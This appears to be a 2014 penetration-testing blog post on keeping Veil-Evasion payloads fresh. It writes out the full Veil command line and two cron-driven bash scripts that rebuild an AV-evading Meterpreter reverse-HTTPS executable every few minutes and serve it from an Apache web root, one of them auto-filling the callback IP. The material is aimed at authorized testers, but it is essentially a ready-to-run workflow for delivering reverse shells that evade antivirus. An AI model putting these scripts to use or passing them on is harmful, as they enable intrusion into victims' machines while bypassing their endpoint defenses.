```yaml
---
layout: post
title: Fresh Veil- Automatically Generating Payloads
category:
year: 2014
month: 2
day: 17
published: true
summary: Keep your Veil payloads fresh to avoid getting caught by signatures
image: 
---
```

     
<div class="row">  
     <div class="span9 columns">

<p>Veil is awesome - it makes payload generation easy and supports a wide variety of payloads with new ones being dropped pretty often.</p>

<p>Getting caught by AV during a test is not awesome.</p>
<p>Being caught because the target’s AV had a signature hit on you is even worse. Because YOU (the tester) messed up. You didn’t take the extra few minutes to regenerate a payload. I’ve been there and I’m sure you’ve been there. It sucks and you feel silly.</p>

<p>The solution? Use Veil’s command line options and cron to regenerate payloads every 30 minutes. </p>

<p><b>Server Build</b></p>
<p>This is the basic build. Let’s assume that you have a server that you catch social engineering payloads on. Static IP (or domain).</p>
<p>For setup, make a directory called <code>/root/payload_temp</code> and use git to clone Veil-Evasion into that folder. Run through the setup script in Veil-Evasion/setup. </p>
<p>The <code>/root/payload_temp</code> directory is where we’ll generate the payload before we move it to our apache root.</p><br>

<p>Let’s take a look at Veil’s command line options:</p>
<img src="{{site.url}}/assets/freshveil1.png" style="height:400px"><br><br>

<p>Using these options, you can generate any payload from within Veil from the command line.</p>

<br><p>For the example code below we’ll make a <code>python/meterpreter/rev_https_contained</code> payload:</p>

<p><code>python /PATH/TO/Veil-Evasion.py -p python/meterpreter/rev_https_contained -c compile_to_exe=Y use_pyherion=Y LHOST=X.X.X.X LPORT=443 --overwrite</code></p>

<p>The <code>--overwrite</code> is necessary here to ensure that the new payloads replace the old ones. You will of course need to replace the X.X.X.X with your WAN IP or local IP if running it within a private network.</p>

<p>With the Veil command figured out, create a bash script called <code>/payload_gen.sh</code> to generate the payload and move it to the apache root:</p>

<pre><code>#!/bin/bash
cd /root/payload_temp
python /PATH/TO/Veil-Evasion.py -p python/meterpreter/rev_https_contained -c compile_to_exe=Y use_pyherion=Y LHOST=X.X.X.X LPORT=443 -o /root/payload_temp/FreshPayload --overwrite
sleep 1
mv -f /root/veil-output/compiled/payload.exe /var/www/FreshPayload.exe</code></pre>

Now we’ll add this to the cron:
<p><code>crontab -e</code> will bring up the cron settings. In the first two blank lines enter:
<pre><code>10 * * * * /payload_gen.sh
40 * * * * /payload_gen.sh</code></pre>

<p>This will make the script run twice an hour at the 10 and 40 minute marks. You can heavily customize the timing options using cron, but this is a basic implementation.

<p>That’s it. Easy, right?
<p>Good. Moving on…


<br><br><p><b>Variable IP Auto-Generation</b></p>
<p>Chances are, you’re in and out of networks that you’re testing and it’s no fun to find a possible vector that needs a binary and then have to go through the whole process of generating the payload before you can test.

<p>So <code>payload_gen2.sh</code> will pull the active eth0 IPv4 address and plug it into the same script:

<pre><code>#!/bin/bash
ADDY=$(ifconfig eth0 | awk '/inet addr/{print $2}' | awk -F':' '{print $2}')
cd /root/payload_temp
python /PATH/TO/Veil-Evasion.py -p python/meterpreter/rev_https_contained -c compile_to_exe=Y use_pyherion=Y LHOST=$ADDY LPORT=443 --overwrite
sleep 1
mv -f /root/veil-output/compiled/payload.exe /var/www/FreshPayload.exe</code></pre>

<p>For the crontab on this payload, I personally have it regenerate every minute so I never need to think about whether I got a new IP since it generated. Edit crontab using <code>crontab -e</code> and place the following code at the bottom:
<pre><code>* * * * * /payload_gen2.sh</code></pre>

<p>You could, of course, stack multiple payloads of different types (perhaps with some additional post-processing) in this script so you get a full, fresh set of all of the many payload types that Veil can generate. All ready for you in your Apache folder.




     </div>
     </div>
     <div id="disqus_thread"></div>
<script type="text/javascript">
    /* * * CONFIGURATION VARIABLES * * */
    var disqus_shortname = 'bluscreenofjeff';
    
    /* * * DON'T EDIT BELOW THIS LINE * * */
    (function() {
        var dsq = document.createElement('script'); dsq.type = 'text/javascript'; dsq.async = true;
        dsq.src = '//' + disqus_shortname + '.disqus.com/embed.js';
        (document.getElementsByTagName('head')[0] || document.getElementsByTagName('body')[0]).appendChild(dsq);
    })();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript" rel="nofollow">comments powered by Disqus.</a></noscript>
<div class="row">
     <div class="span9 column">
          <p class="pull-right">{% if page.previous.url %} <a href="{{page.previous.url}}" title="Previous Post: {{page.previous.title}}"><i class="icon-chevron-left"></i></a>     {% endif %}   {% if page.next.url %}    <a href="{{page.next.url}}" title="Next Post: {{page.next.title}}"><i class="icon-chevron-right"></i></a>     {% endif %} </p>  
     </div>
</div>
<script>
  (function(i,s,o,g,r,a,m){i['GoogleAnalyticsObject']=r;i[r]=i[r]||function(){
  (i[r].q=i[r].q||[]).push(arguments)},i[r].l=1*new Date();a=s.createElement(o),
  m=s.getElementsByTagName(o)[0];a.async=1;a.src=g;m.parentNode.insertBefore(a,m)
  })(window,document,'script','//www.google-analytics.com/analytics.js','ga');

  ga('create', 'UA-61938642-1', 'auto');
  ga('send', 'pageview');

</script>